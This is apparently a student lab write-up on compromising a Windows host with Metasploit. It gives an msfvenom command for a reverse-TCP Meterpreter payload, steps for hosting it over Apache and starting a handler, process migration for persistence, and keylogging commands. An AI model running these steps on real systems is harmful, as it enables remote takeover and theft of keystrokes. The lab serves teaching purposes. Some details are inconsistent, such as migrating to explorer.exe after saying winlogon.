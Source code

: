 # EX.NO-06
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
```
Tested By : SAMUEL M
Reg. no: 212222040142
```

Find the attackers ip address using ifconfig
## OUTPUT:
![img01](https://github.com/user-attachments/assets/48184a16-ab3e-44fe-8b73-be02546358c1)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![img02](https://github.com/user-attachments/assets/96704f06-9b23-454b-b5f4-99890965686f)




copy the fun.exe into the apache /var/www/html folder
![img03](https://github.com/user-attachments/assets/6b6cb525-f9eb-4162-8080-bf518aef7a16)


Start apache server
sudo systemctl apache2 start

![img04](https://github.com/user-attachments/assets/c6d7a0c3-20a9-4f97-aa93-2340ae6618dc)



Check the status of apache2
![img05](https://github.com/user-attachments/assets/ab3a063a-5f1c-4634-9666-21a2c4df1ca4)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![img06](https://github.com/user-attachments/assets/9d2930e9-2ca2-4f41-a12d-f6bb464eeba7)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![img07](https://github.com/user-attachments/assets/a6d9de9f-0192-4578-912c-4f861fe8aa4a)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![img08](https://github.com/user-attachments/assets/75c32eb4-7e41-4099-b807-0c216ab6f81f)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![img09](https://github.com/user-attachments/assets/bc0ae88a-5538-4752-9c80-3841d56107d1)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![img010](https://github.com/user-attachments/assets/22a7c2bf-649f-4651-ac16-793e7f4307fc)



keyscan_dump	Shows the keystrokes captured so far
![img011](https://github.com/user-attachments/assets/a8cfb90f-080e-490f-b546-b42be0d318f8)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

